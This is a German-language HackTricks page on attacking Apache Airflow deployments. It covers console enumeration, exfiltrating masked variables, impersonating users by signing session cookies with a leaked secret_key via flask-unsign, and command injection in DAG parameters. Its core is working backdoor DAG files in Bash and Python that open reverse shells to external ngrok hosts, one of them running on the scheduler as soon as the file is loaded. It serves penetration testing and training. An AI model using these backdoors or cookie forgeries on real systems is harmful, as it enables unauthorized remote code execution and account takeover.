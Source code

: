 # Apache Airflow Sicherheit

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

### Grundinformationen

[**Apache Airflow**](https://airflow.apache.org) dient als Plattform für **die Orchestrierung und Planung von Datenpipelines oder Workflows**. Der Begriff "Orchestrierung" im Kontext von Datenpipelines bezeichnet den Prozess der Anordnung, Koordination und Verwaltung komplexer Daten-Workflows, die aus verschiedenen Quellen stammen. Der Hauptzweck dieser orchestrierten Datenpipelines besteht darin, verarbeitete und konsumierbare Datensätze bereitzustellen. Diese Datensätze werden umfassend von einer Vielzahl von Anwendungen genutzt, einschließlich, aber nicht beschränkt auf Business-Intelligence-Tools, Datenwissenschafts- und Machine-Learning-Modelle, die alle grundlegend für das Funktionieren von Big-Data-Anwendungen sind.

Im Grunde wird Apache Airflow es dir ermöglichen, **die Ausführung von Code zu planen, wenn etwas** (Ereignis, Cron) **passiert**.

### Lokales Labor

#### Docker-Compose

Du kannst die **docker-compose-Konfigurationsdatei von** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) verwenden, um eine vollständige Apache Airflow Docker-Umgebung zu starten. (Wenn du auf MacOS bist, stelle sicher, dass du der Docker-VM mindestens 6 GB RAM zuweist).

#### Minikube

Eine einfache Möglichkeit, **Apache Airflow auszuführen**, besteht darin, es **mit Minikube** auszuführen:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow-Konfiguration

Airflow könnte **sensible Informationen** in seiner Konfiguration speichern oder Sie könnten schwache Konfigurationen finden:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Bevor Sie mit dem Angriff auf Airflow beginnen, sollten Sie verstehen, **wie Berechtigungen funktionieren**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Angriffe

#### Webkonsole Enumeration

Wenn Sie **Zugriff auf die Webkonsole** haben, könnten Sie in der Lage sein, einige oder alle der folgenden Informationen zuzugreifen:

* **Variablen** (Benutzerdefinierte sensible Informationen könnten hier gespeichert sein)
* **Verbindungen** (Benutzerdefinierte sensible Informationen könnten hier gespeichert sein)
* Zugriff darauf in `http://<airflow>/connection/list/`
* [**Konfiguration**](./#airflow-configuration) (Sensible Informationen wie der **`secret_key`** und Passwörter könnten hier gespeichert sein)
* Liste der **Benutzer & Rollen**
* **Code jedes DAG** (der interessante Informationen enthalten könnte)

#### Abrufen von Variablenwerten

Variablen können in Airflow gespeichert werden, sodass die **DAGs** ihre Werte **zugreifen** können. Es ist ähnlich wie bei Geheimnissen anderer Plattformen. Wenn Sie **genug Berechtigungen** haben, können Sie sie in der GUI unter `http://<airflow>/variable/list/` abrufen.\
Airflow zeigt standardmäßig den Wert der Variablen in der GUI an, jedoch ist es laut [**dieser**](https://marclamberti.com/blog/variables-with-apache-airflow/) möglich, eine **Liste von Variablen** festzulegen, deren **Wert** in der **GUI** als **Sternchen** angezeigt wird.

![](<../../.gitbook/assets/image (164).png>)

Diese **Werte** können jedoch weiterhin über **CLI** (Sie müssen DB-Zugriff haben), **willkürliche DAG**-Ausführung, **API**-Zugriff auf den Variablen-Endpunkt (die API muss aktiviert sein) und **sogar die GUI selbst!**\
Um auf diese Werte über die GUI zuzugreifen, wählen Sie einfach die **Variablen** aus, auf die Sie zugreifen möchten, und **klicken Sie auf Aktionen -> Exportieren**.\
Eine andere Möglichkeit besteht darin, einen **Bruteforce** auf den **versteckten Wert** durchzuführen, indem Sie die **Suchfilterung** verwenden, bis Sie ihn erhalten:

![](<../../.gitbook/assets/image (152).png>)

#### Privilegieneskalation

Wenn die Konfiguration **`expose_config`** auf **True** gesetzt ist, können Benutzer ab der **Rolle Benutzer** und **darüber** die **Konfiguration im Web** **lesen**. In dieser Konfiguration erscheint der **`secret_key`**, was bedeutet, dass jeder Benutzer mit diesem gültigen Schlüssel **seinen eigenen signierten Cookie erstellen kann, um sich als ein anderer Benutzeraccount auszugeben**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG-Hintertür (RCE im Airflow-Worker)

Wenn Sie **Schreibzugriff** auf den Ort haben, an dem die **DAGs gespeichert sind**, können Sie einfach **eine erstellen**, die Ihnen eine **Reverse-Shell** sendet.\
Beachten Sie, dass diese Reverse-Shell innerhalb eines **Airflow-Worker-Containers** ausgeführt wird:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE im Airflow-Scheduler)

Wenn Sie etwas auf **der Wurzel des Codes ausführen** lassen, wird es zum Zeitpunkt des Schreibens **vom Scheduler ausgeführt**, nachdem es ein paar Sekunden lang im DAG-Ordner platziert wurde.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG-Erstellung

Wenn es Ihnen gelingt, **eine Maschine im DAG-Cluster zu kompromittieren**, können Sie neue **DAG-Skripte** im Ordner `dags/` erstellen, und sie werden **im Rest der Maschinen** im DAG-Cluster **repliziert**.

#### DAG-Code-Injection

Wenn Sie einen DAG über die GUI ausführen, können Sie **Argumente** an ihn **übergeben**.\
Daher könnte der DAG, wenn er nicht ordnungsgemäß codiert ist, **anfällig für Command Injection** sein.\
Das ist, was in diesem CVE passiert ist: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Alles, was Sie wissen müssen, um **nach Command Injections in DAGs zu suchen**, ist, dass **Parameter** mit dem Code **`dag_run.conf.get("param_name")`** **zugegriffen** werden.

Darüber hinaus könnte die gleiche Verwundbarkeit auch bei **Variablen** auftreten (beachten Sie, dass Sie mit ausreichenden Rechten **den Wert der Variablen** in der GUI **steuern** könnten). Variablen werden **mit** zugegriffen:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Wenn sie beispielsweise innerhalb eines Bash-Befehls verwendet werden, könnten Sie eine Befehlsinjektion durchführen.

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
